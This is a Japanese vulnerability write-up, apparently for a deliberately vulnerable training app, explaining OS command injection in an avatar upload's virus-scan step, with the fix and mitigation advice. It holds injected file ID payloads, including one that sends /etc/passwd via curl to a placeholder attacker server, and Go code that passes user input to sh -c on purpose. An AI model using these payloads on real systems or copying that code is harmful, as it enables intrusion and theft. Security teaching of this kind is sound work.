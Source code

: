 # OSコマンドインジェクション（アバターアップロード機能）

## 脆弱性の概要
アバターアップロード機能において、ユーザーが指定したファイルIDがウィルススキャン処理で適切にエスケープされずにOSコマンドに渡されるため、OSコマンドインジェクションの脆弱性が存在します。攻撃者はこの脆弱性を悪用して、サーバー上で任意のコマンドを実行することができます。

アバター画像データはデータベースに直接保存されますが、ウィルススキャンのために一時的にファイルシステムに保存される際に脆弱性が発生します。

## 影響
この脆弱性が悪用された場合、以下のような影響があります：
- サーバー上での任意のコマンド実行
- 機密情報の漏洩
- サーバーの乗っ取り
- サービス拒否攻撃（DoS）

## 攻撃方法
1. プロフィール編集画面でアバター画像をアップロードする際に、ファイルIDに悪意のあるコマンドを含める
2. 例えば、以下のようなファイルIDを使用する：
   - `avatar.jpg; ls -la /`
   - `avatar.jpg && cat /etc/passwd`
   - `avatar.jpg | curl -X POST -d @/etc/passwd https://攻撃者のサーバー/`
3. curlでファイルアップロードを実行する例
```bash
# Base64エンコードされた画像データを含むcurlコマンド例
# 小さなPNG画像をBase64エンコードしたデータ
curl 'http://localhost:9090/api/profile/avatar' \
  -H 'Authorization: Bearer alice_token' \
  -H 'Content-Type: application/json' \
  --data-raw '{
    "file_id":"avatar.jpg && cat /etc/passwd",
    "image_data":"R0lGODlhAQABAIAAAP///////yH+BnBzYV9sbAAh+QQBCgABACwAAAAAAQABAAACAkwBADs="
  }'
```
4. `malware_scan`というフィールドにOSコマンドの出力結果が返却されます


## 実装の詳細
アバター画像データはBase64エンコードされた形式でデータベースに直接保存されます。ただし、ウィルススキャンを行うために、一時的にファイルシステムに保存されます。この一時ファイルは処理完了後に削除されますが、ウィルススキャン処理中に脆弱性が発生します。

## 脆弱なコード
```go
func (h *Handler) UploadAvatar(c *gin.Context) {
    // ... 省略 ...
    
	// 一時ファイルの保存（ウィルススキャン用）
	tempFileName := fmt.Sprintf("%d.png", time.Now().Unix())
	filePath := filepath.Join(uploadDir, tempFileName)
	if err := os.WriteFile(filePath, imageData, 0644); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{"error": "Failed to save temporary file"})
		return
	}
	defer os.Remove(filePath) // 処理完了後に一時ファイルを削除

	// 脆弱性: OSコマンドインジェクション
	// ユーザー入力（FileID）を適切にエスケープせずにコマンドに渡している
	scanResult, err := scanFile(filePath, req.FileID)
	if err != nil {
		c.JSON(http.StatusBadRequest, gin.H{"error": "Virus detected or scan failed", "scan_result": scanResult})
		return
	}
    
    // ... 省略 ...
}

func scanFile(filePath string, fileID string) (string, error) {
	// 脆弱性: OSコマンドインジェクション
	// ユーザー入力（fileID）を適切にエスケープせずにコマンドに渡している
	cmd := exec.Command("sh", "-c", "echo 'Scanning file: ' && echo "+fileID)
	output, err := cmd.CombinedOutput()
	if err != nil {
		return string(output), fmt.Errorf("ウィルスが検出されました: fileID=%s, filePath=%s", fileID, filePath)
	}
	return string(output), nil
}

```

## 対策方法
1. OSコマンドを使用せずに、プログラム内部でファイルの検査を行う
2. 必要に応じてOSコマンドを使用する場合は、以下の対策を行う：
   - ユーザの入力値は基本的にコマンドライン引数に渡さない
   - ユーザの入力値をバリデーションする
   - ユーザー入力を適切にエスケープする
   - シェル（sh, bash）を介さずに直接コマンドを実行する

### 修正例
```go
// データベースに直接保存する実装
func (h *Handler) UploadAvatar(c *gin.Context) {
    // ... 省略 ...
    
    // 一時ファイルを作成せずにメモリ上でスキャン
    // または、一時ファイルを作成する場合は安全なファイル名を使用
    tempFile, err := os.CreateTemp("", "safe-prefix-*.jpg")
    if err != nil {
        c.JSON(http.StatusInternalServerError, gin.H{"error": "Failed to create temporary file"})
        return
    }
    defer os.Remove(tempFile.Name())
    
    if _, err := tempFile.Write(imageData); err != nil {
        c.JSON(http.StatusInternalServerError, gin.H{"error": "Failed to write to temporary file"})
        return
    }
    tempFile.Close()
    
    // 安全なスキャン処理
    if err := scanFileSafely(tempFile.Name()); err != nil {
        c.JSON(http.StatusBadRequest, gin.H{"error": "Virus detected or scan failed"})
        return
    }
    
    // ... 省略 ...
}

func scanFileSafely(filePath string) error {
    // 修正: 引数を配列として渡し、シェルを介さずに実行
    cmd := exec.Command("grep", "-q", "virus_signature", filePath)
    err := cmd.Run()
    if err != nil {
        if exitErr, ok := err.(*exec.ExitError); ok && exitErr.ExitCode() == 1 {
            // grepコマンドがパターンを見つけられなかった場合（終了コード1）は正常とみなす
            return nil
        }
        log.Printf("ウィルススキャンエラー: %v", err)
        return err
    }
    return fmt.Errorf("ウィルスが検出されました")
}
```

## 参考情報
- [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)
